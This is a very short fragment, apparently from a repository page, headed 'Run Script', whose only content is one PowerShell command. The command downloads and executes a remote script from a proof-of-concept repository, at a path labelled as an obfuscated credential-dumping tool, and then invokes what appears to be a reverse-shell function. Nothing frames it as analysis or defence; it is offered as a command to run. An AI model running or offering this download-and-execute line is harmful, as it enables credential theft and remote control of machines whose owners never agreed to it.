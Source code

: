 
# Run Script

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/cyber-rangers/PoCs/main/Credentials/cyb3r-mimi-ob.ps1");Invoke-PowerShellIcmp